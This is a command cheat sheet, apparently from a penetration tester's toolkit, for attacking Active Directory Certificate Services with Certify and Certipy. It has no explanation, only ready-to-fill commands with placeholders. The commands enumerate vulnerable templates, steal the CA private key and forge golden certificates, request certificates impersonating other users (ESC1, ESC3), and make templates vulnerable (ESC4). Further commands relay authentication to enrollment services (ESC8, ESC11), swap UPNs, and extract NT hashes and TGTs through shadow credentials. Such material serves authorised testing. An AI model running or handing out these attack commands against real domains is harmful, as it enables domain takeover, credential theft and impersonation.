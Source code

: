 # certify

% adcs, certificate, pki, windows, Active directory, template, shadow credential
#plateform/windows #target/remote #cat/AD/RECON


## enum - Ca
```powershell
Certify.exe cas
```
## enum - list enabled certificate templates 
```
certify.exe find -enabled  -hide-admins -u <user>@<domain_fqdn> -p '<password>' -dc-ip <dc_ip> [-stdout]
```

## enum - list enabled certificate templates (socks)
add CA to /etc/hosts
```
certipy find -enabled -hide-admins -u <user>@<domain_fqdn> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp [-stdout]
```

## enum - list vulnerable certificate templates 
```
certipy find -vulnerable -hide-admins -u <user>@<domain_fqdn> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp [-stdout]
```

## enum - list vulnerable certificate templates (socks)
add CA to /etc/hosts
```
certipy find -vulnerable -hide-admins -u <user>@<domain_fqdn> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp [-stdout]
```

## enum - enumerate to bloodhound (socks)
```bash
certipy find -enabled  -u <user>@<domain_fqdn> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp  -old-bloodhound
```

## req - request certificate (v1)
```
certipy req -u <user>@<domain_fqdn> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp  -ca <ca_name> -template <template> 
```

## req - request certificate (v2)
```
certipy req -u <user>@<domain_fqdn> -p '<password>' -target-ip <ca_ip>  -ca <ca_name> -template <template> 
```


## req - retrieve approved request 
```
certipy req -u <user>@<domain_fqdn> -p '<password>' -target-ip <ca_ip>  -ca <ca_name> -retrieve <id>
```

## cert - extract cert from pfx
#plateform/linux #target/remote #cat/UTILS
```
certipy cert -pfx <pfx> -nokey -out <file>.crt -password <password|jubeaz>
```

## cert - extract key from pfx
```
certipy cert -pfx <pfx> -nocert -out <file>.key -password <password|jubeaz>
```

## cert - create pfx from cert
#plateform/linux #target/remote #cat/UTILS
```
certipy cert -key <key_file>  -cert <cert_file>  -export -out <pfx_file>
```

## auth - authenticate with pfx certificate
#plateform/linux #target/remote #cat/CONNECT
KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type ======> keep trying 
```
certipy auth -pfx <pfx-file>  -domain <domain_fqdn> -username <user> -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp 
```

## auth - authenticate through LDAP (Schannel) with pfx certificate
#plateform/linux #target/remote #cat/CONNECT
```
certipy auth -pfx <pfx-file> -dc-ip <dc_ip> -ldap-shell
```

## Golden Certificate - steal CA certificate and private key
#plateform/linux #target/remote #cat/ATTACK
```
certipy ca -u <user>@<domain_fqdn> -p '<password>' -backup -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp  -ca <ca_name>
```

## Golden Certificate - forge certificate
#plateform/linux #target/remote #cat/ATTACK
```
certipy forge -ca-pfx <pfx-file> -upn <user>@<domain_fqdn> -crl ldap://<dc_ip>:389
```

## req - request certificate for another user - ESC1 - ESC6
#plateform/linux #target/remote #cat/ATTACK
```
certipy req -u <user>@<domain_fqdn> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp  -ca <ca_name> -template <template>  -upn <targeted-user>@<domain_fqdn>
```

## req - request certificate on behalf of with Certificate Request Agent certificate - ESC3
#plateform/linux #target/remote #cat/ATTACK
```
certipy req -u <user>@<domain_fqdn> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp  -ca <ca_name> -template <template> -on-behalf-of '<NetBIOS-domain-name>\<targeted-user>' -pfx <pfx-file>
```

## template - modify template in order to make it vulnerable to ESC1 - ESC4
#plateform/linux #target/remote #cat/ATTACK
```
certipy template -u <user>@<domain_fqdn> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp  -template <template> -save-old
```

## ca - Issue certificate for specific request id - ESC7
#plateform/linux #target/remote #cat/ATTACK
```
certipy ca -u <user>@<domain_fqdn> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp  -ca <ca_name> -issue-request <csr-id>
```

## relay - relay authentication to CA Web Enrollment - ESC8
#plateform/linux #target/remote #cat/ATTACK
```
certipy relay -target <ca_ip>  -template <template>
```

## relay - relay authentication to RPC Enrollment - ESC11
#plateform/linux #target/remote #cat/ATTACK
```
certipy relay -target "rpc://<ca_name>.<domain_fqdn>" -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp  -ca <ca_name> -template <template>
```

## account - Modify user upn to another one - ESC9 - ESC10
#plateform/linux #target/remote #cat/ATTACK
```
certipy account update -u <user>@<domain_fqdn> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp  -user <targeted-user> -upn <target_upn>
```


## account - add computer
#plateform/linux #target/remote #cat/ATTACK
```
certipy account create -u <user>@<domain_fqdn> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp  -user user <computer_name> -dns <fqdn>
```


## shadow - get NT Hash using Shadow Credential
#plateform/linux #target/remote #cat/ATTACK
Full Chain exploit of Shadow Credential: Create a Key Credential, Authenticate to get NT hash and TGT, and remove the Key Credential
```
certipy shadow auto -u <user>@<domain_fqdn> -p '<password>' -account <targeted-user>  -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp 
```
